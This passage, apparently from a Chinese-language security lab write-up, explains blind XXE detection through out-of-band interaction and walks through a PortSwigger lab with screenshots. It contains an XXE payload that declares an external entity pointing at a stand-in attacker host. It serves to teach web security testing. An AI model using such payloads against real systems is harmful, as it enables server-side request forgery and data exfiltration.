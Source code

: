 #### 外带技术

您通常可以使用与 XXE SSRF 攻击相同的技术来检测盲注类型的 XXE，但会触发与您控制的系统的带外网络交互，例如：您可以定义一个外部实体，如下所示：

```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

然后您将在 XML 中的数据值中使用定义的实体，此 XXE 攻击导致服务器对指定的 URL 发出后端 HTTP 请求，攻击者监视由此产生的 DNS 查找和 HTTP 请求，从而检测 XXE 攻击是否成功

#### 数据外带

靶场名称：Blind XXE with out-of-band interaction  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)  
靶场演示：

随后选择任意商品  
[![](assets/1706060044-abee0025b8cc935c45ba47ab6adbf8df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131120-d82db8da-b9ad-1.png)  
查看其库存量  
[![](assets/1706060044-44593cd553ce6a0d700b8601438a4e7b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131158-eed3e668-b9ad-1.png)  
捕获到的数据包如下所示：  
[![](assets/1706060044-b8a1ba7743fd552a82032ce365705bde.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131215-f8ffac3a-b9ad-1.png)
